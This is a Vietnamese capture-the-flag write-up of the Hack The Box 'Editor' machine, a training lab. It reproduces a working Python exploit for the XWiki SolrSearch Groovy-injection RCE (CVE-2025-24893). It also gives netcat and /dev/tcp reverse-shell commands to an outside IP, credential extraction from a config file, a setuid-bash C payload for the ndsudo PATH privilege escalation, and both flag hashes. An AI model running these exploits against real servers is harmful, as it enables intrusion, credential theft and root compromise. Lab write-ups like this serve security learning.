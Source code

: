 ```yaml
---
title: HTB Editor
published: 2025-08-20
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
draft: flase
description: Writeup about Editor Machine
image: "/assets/post_image/editor.png"
---
```

# HTB Labs: Editor 
## I. User flag
Đến với lab việc đầu tiên ta sẽ recon trước bằng nmap 
![image](https://hackmd.io/_uploads/SyS02j8Kge.png)
Ta thấy có 2 service web ở port `80` và `8080` và 1 `ssh`. Giờ mình sẽ kiểm trả ở port `80` trước. Trước đó thì ta cần update tên miền vào file `/etc/hosts` trước
![image](https://hackmd.io/_uploads/rJC21h8Kgg.png)
Nhìn chung đây là một trang sản phẩm cho người dùng có thể tải `Code Editor` về máy và tìm kiếm thì mình không thấy điểm nào để có thể inject input vào nên tạm thời sẽ đi đến với port `8080`
![image](https://hackmd.io/_uploads/S1v74HDYgg.png)
Ta thấy đây là một trang dùng `xwiki` để giới thiệu về tool `Simplist code` ở phía trang port `80`. Có một vài trường và path đáng để xem xét. Ở bên dưới ta thấy rằng phiên bản `xwiki` là `XWiki Debian 15.10.8`
![image](https://hackmd.io/_uploads/SJh04Bvtle.png)
Mình sẽ check sploit bằng [exploit-db](https://www.exploit-db.com/) để xem có bản khai thác hay `POC` nào được public không. Ta thấy được có bản `CVE` đã công bố 2025 về lỗ hỏng của version này
![image](https://hackmd.io/_uploads/S1l8LSwtxl.png)

```python 

# Exploit Title: XWiki Platform - Remote Code Execution
# Exploit Author: Al Baradi Joy
# Exploit Date: April 6, 2025
# CVE ID: CVE-2025-24893
# Vendor Homepage: https://www.xwiki.org/
# Software Link: https://github.com/xwiki/xwiki-platform
# Version: Affected versions up to and including XWiki 15.10.10
# Tested Versions: XWiki 15.10.10
# Vulnerability Type: Remote Code Execution (RCE)
# CVSS Score: 9.8 (Critical)
# CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
# Description:
# XWiki Platform suffers from a critical vulnerability where any guest user
can
# execute arbitrary code remotely through the SolrSearch endpoint. This can
lead
# to a full server compromise, including the ability to execute commands on
the
# underlying system. The vulnerability impacts the confidentiality,
integrity,
# and availability of the XWiki installation. The issue has been patched in
XWiki
# versions 15.10.11, 16.4.1, and 16.5.0RC1.
# Proof of Concept: Yes
# Categories: XWiki, Remote Code Execution, CVE-2025, RCE
# References:
# - GHSA Advisory: https://github.com/advisories/GHSA-rr6p-3pfg-562j
# - NVD CVE Details: https://nvd.nist.gov/vuln/detail/CVE-2025-24893
# - GitHub Exploit Link:
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py

import requests

# Banner
def display_banner():
print("="*80)
print("Exploit Title: CVE-2025-24893 - XWiki Platform Remote Code
Execution")
print("Exploit Author: Al Baradi Joy")
print("GitHub Exploit:
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py")
print("="*80)

# Function to detect the target protocol (HTTP or HTTPS)
def detect_protocol(domain):
https_url = f"https://{domain}"
http_url = f"http://{domain}"

try:
response = requests.get(https_url, timeout=5, allow_redirects=True)
if response.status_code < 400:
print(f"[✔] Target supports HTTPS: {https_url}")
return https_url
except requests.exceptions.RequestException:
print("[!] HTTPS not available, falling back to HTTP.")

try:
response = requests.get(http_url, timeout=5, allow_redirects=True)
if response.status_code < 400:
print(f"[✔] Target supports HTTP: {http_url}")
return http_url
except requests.exceptions.RequestException:
print("[✖] Target is unreachable on both HTTP and HTTPS.")
exit(1)

# Exploit function
def exploit(target_url):
target_url = detect_protocol(target_url.replace("http://",
"").replace("https://", "").strip())
exploit_url =
f"{target_url}/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"

try:
print(f"[+] Sending request to: {exploit_url}")
response = requests.get(exploit_url, timeout=10)

# Check if the exploit was successful
if response.status_code == 200 and "root:" in response.text:
print("[✔] Exploit successful! Output received:")
print(response.text)
else:
print(f"[✖] Exploit failed. Status code:
{response.status_code}")

except requests.exceptions.ConnectionError:
print("[✖] Connection failed. Target may be down.")
except requests.exceptions.Timeout:
print("[✖] Request timed out. Target is slow or unresponsive.")
except requests.exceptions.RequestException as e:
print(f"[✖] Unexpected error: {e}")

# Main execution
if __name__ == "__main__":
display_banner()
target = input("[?] Enter the target URL (without http/https):
").strip()
exploit(target)
            
```
Lỗi nằm trong macro SolrSearch của XWiki. Khi người dùng gửi truy vấn tìm kiếm với `media=rss`, dữ liệu này được chèn trực tiếp vào `template`. `Template` này cho phép chèn và thực thi mã `Groovy`, nhưng không có cơ chế lọc/chặn thích hợp.
Kết quả: kẻ tấn công có thể inject Groovy script → được thực thi trực tiếp trên server.

Ta thấy được đoạn payload rce là `}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}`. Ở đây sẽ dùng `}}}` để out khỏi context ban đầu sau đó dùng macro `async` để đồng bộ hóa và chèn thêm macro `groovy` vào thực hiện `RCE` để đọc file `/etc/passwd`. Giờ ta sẽ tiến hành inject thử với lệnh
Mình sẽ test thử với lệnh `id` về cơ bản để check xem quyền của ta như thế nào, có thể là root hay không. Như ta thấy thì kết quả trả về khá nhiều data nhưng ta chỉ cần vô theo các dòng có `rss`
![image](https://hackmd.io/_uploads/SJLj0HDYxe.png)
Ta có thể thấy được kết quả đã thành công có thể thực hiện được `RCE`. Giờ mình sẽ check thử xem có thể đưa `rev shell` vào không để thuận tiện dùng lệnh
Ta có thể dùng `'busybox nc 10.10.10.10 9001 -e /bin/bash'` để rev shell. Ta nên thêm busybox để có thể chạy `nc -e` thay vì chạy lệnh `bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/4444 0>&1'` vì sẽ có nhiều target không có bash đầy đủ và cũng không hỗ trợ `/dev/tcp`
![image](https://hackmd.io/_uploads/HyXkMuPtgg.png)
Ta đã thành công thực hiện `rev shell`, giờ là đến việc tìm `user flag` . Sau một lúc tìm hiểu về `XWiki` ta thấy được có một file đặc biệt `/usr/local/xwiki/webapps/xwiki/WEB-INF/hibernate.cfg.xml`. File này là nơi `XWiki` dùng để kết nối với database của server để thực hiện xử lý các dữ liệu liên quan đến `login, logout, reg,...` 
Do `dir` không giống nhau nên mình check thử thì thấy được file nằm ở `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`
![image](https://hackmd.io/_uploads/HJIFBdwKxl.png)
Ta có thể thấy được thông tin `password` bằng lệnh `cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep "password"` 
![image](https://hackmd.io/_uploads/Bkh9D_wFll.png)
Cộng thêm với username là `oliver` ta có thể login vào `ssh server` để lấy shell
![image](https://hackmd.io/_uploads/SkA6vuDFlx.png)
> 3fd90dfed2869746543d3f036734541d

## II. Root flag
Đến với phần lấy `root flag`, thì việc cần làm là check trước các bước đầu tiên là `enum SUID` với `find / -perm -4000 2>/dev/null`
![image](https://hackmd.io/_uploads/ry-29OvYlg.png)
Ta thấy được đáng chú ý nhất là `ndsudo` từng dính `CVE-2024-32019 (Untrusted Search Path)`. Lỗ hổng phát sinh khi `ndsudo` được đóng gói dưới dạng `SUID root` (root-owned và có bit SUID), nhưng lại tìm các lệnh thông qua biến môi trường `PATH`, điều này dẫn đến tình huống `Untrusted Search Path`.
Mình tìm được `POC` cụ thể [ở đây](https://github.com/AzureADTrent/CVE-2024-32019-POC)
ta sẽ dùng file c 
```c 
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```
Và sau đó dùng gcc compile thành binary do ở phía `ssh server` không có `gcc` nên ta sẽ dùng ở local. Tiếp đến để truyền nhanh lên `ssh server` mà không cần mở server ở local ta có thể dùng `scp`
![image](https://hackmd.io/_uploads/HJnW2uvKxg.png)
Giờ ta sẽ set `PATH` biến mội trường cho nó và cấp quyền thực thi
![image](https://hackmd.io/_uploads/S1X8huPFel.png)
Sau cùng là sẽ gọi lệnh `./ndsudo nvme-list`
![image](https://hackmd.io/_uploads/H1qXT_vKge.png)
Giờ ta đã có quyền root giờ chỉ cần đến root và lấy flag
![image](https://hackmd.io/_uploads/B1aHTOvKeg.png)

> 396ef747a71039bd66d36d2d75c4966f

